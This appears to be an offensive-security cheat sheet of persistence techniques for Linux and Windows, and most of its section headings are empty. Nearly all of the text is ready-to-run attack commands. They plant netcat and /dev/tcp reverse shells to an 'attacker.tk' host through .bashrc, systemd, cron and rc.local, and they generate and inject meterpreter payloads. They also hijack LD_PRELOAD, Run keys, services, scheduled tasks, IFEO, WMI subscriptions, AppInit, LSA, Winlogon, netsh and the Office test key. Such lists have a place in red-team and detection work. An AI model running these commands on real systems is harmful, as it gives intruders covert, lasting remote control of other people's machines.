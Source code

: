 # WEB

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# PERSISTANT

    ## LINUX

    * Autorun

bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc

* Service

bash#> vim /etc/systemd/system/persistence.service
bash$> vim ~/.config/systemd/user/persistence.service

[Unit]
Description=persistence
[Service]
ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
Restart=always
RestartSec=60
[Install]
WantedBy=default.target

bash#> systemctl enable persistence.service
bash#> systemctl start persistence.service
bash$> systemctl ‐‐user enable persistence.service
bash$> systemctl ‐‐user start persistence.service

* Tasks

bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn

* In MEMORY

msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
bash$> inject_linux PID meter32.bin

* LD_PRELOAD

bash#> echo /path/to/meter.so >> /etc/ld.so.preload
bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc

* rc.local

bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local

## WINDOWS

* Autorun

cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"

* Service

cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
cmd#> sc start persistence

* Tasks

cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"

* In MEMORY

msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
cmd$> inject_windows.exe PID meter32.bin

* Debugger

cmd#> copy calc.exe _calc.exe
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f

* Gflags

cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"

* WMI

cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""

* AppInit

cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f

* Lsass

cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f

* Winlogon

cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"

* Netsh

cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"

* Office

cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# OS

# UTILS

# LINKS

